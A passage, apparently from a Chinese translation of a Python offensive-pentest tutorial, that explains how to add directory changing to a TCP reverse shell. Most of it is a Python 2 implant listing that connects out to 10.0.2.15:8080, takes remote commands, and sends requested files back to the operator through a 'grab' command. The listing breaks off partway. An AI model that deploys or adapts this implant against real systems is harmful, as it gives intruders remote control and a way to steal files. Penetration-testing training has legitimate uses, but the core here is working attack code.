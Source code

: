 现在，我们将解决一个目录导航问题。现在，问题是浏览目录受到 shell 工作目录的限制。例如，如果目标已经在`Desktop`执行了我们的 Python 脚本，那么我们的工作目录就会是`Desktop`。由于 shell 的限制，我们不能简单地输入`cd`命令并切换到另一个目录。记住，我们学到的一些命令在 shell 中无法执行，`cd`就是其中之一。

一旦我们在两端运行之前的 TCP 反向 Shell，你会看到我们当前的工作目录是在 `Desktop`，也就是我们的 Python 脚本所在的地方。注意，当执行 `cd` 命令来更改当前工作目录到 `C:\Users` 时会发生什么。我们的脚本在尝试执行 `cd C:\Users` 命令时会变得没有响应，这是因为 Shell 未能正确处理 `cd` 命令。现在，为了解决这个问题，我们需要明确地告诉脚本改变它的工作目录。再次强调，这是因为我们的 Shell 工作目录被限制在 Python 脚本的工作目录中。

这里的公式是 `cd` 后跟空格，然后是我们想要进入的路径。接下来，我们将基于空格将接收到的命令拆分成两个变量。幸运的是，改变目录在 Python 中只需一行代码。最后，我们返回一个字符串，表示当前的工作目录：

```
# Python For Offensive PenTest

# Directory Navigation

import socket 
import subprocess 
import os

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: 
        s.send('Unable to find out the file')

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080)) 

    while True: 
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break 

        elif 'grab' in command: 
            grab,path = command.split('*')
            try:
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) )
                pass

        elif 'cd' in command: # the forumula here is gonna be cd then space then the path that we want to go to, like cd C:\Users
            code,directory = command.split (' ') # split up the received command based on space into two variables
            os.chdir(directory) # changing the directory 
            s.send( "[+] CWD Is " + os.getcwd() ) # we send back a string mentioning the new CWD
...
```
